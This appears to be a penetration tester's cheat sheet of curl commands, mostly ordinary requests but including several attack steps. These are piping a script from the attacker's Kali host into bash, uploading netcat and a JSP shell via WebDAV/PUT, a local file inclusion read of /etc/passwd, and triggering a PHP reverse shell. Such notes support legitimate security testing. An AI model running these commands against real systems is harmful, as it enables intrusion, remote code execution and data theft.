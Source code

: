 #### Download and execute
```bash - target
curl http://$KALI/shelly.sh | bash
```
#### Save to file
```bash - target
curl http://$KALI/shelly.sh -o shelly.sh
```
#### Proxy to Burp
```
curl --proxy localhost:8080 -k https://$TARGET
```
#### Headers
```bash - kali
curl -I http://192.168.120.204/filemanager/
```
#### GET request with data
```
curl -X GET -k https://$TARGET -d 'testdata'
```
#### Upload file
```bash
curl --user 'user:password' -T nc64.exe http://$TARGET/webdav/nc64.exe
```
```bash
curl -X PUT http://$TARGET:PORT/shelly.jsp -d 2- < shelly.jsp
```
#### LFI example with custom header
```bash -kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```
#### html2text
```bash - kali
curl http://$TARGET:8080/ | html2text
```
#### Credentials
```bash - kali
curl --user $USER:$PASSWORD $TARGET
```
#### Webdav trigger webshell
```bash - kali
curl http://$TARGET/webdav/php-reverse-shell.php -u $USER:$PASSWORD
```
#### Edit Method
```bash - kali
curl -siX POST -H 'Content-Length: 0' http://$TARGET:33333/list-running-procs
```
#### Link Extractor
```bash - kali
curl http://$TARGET | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```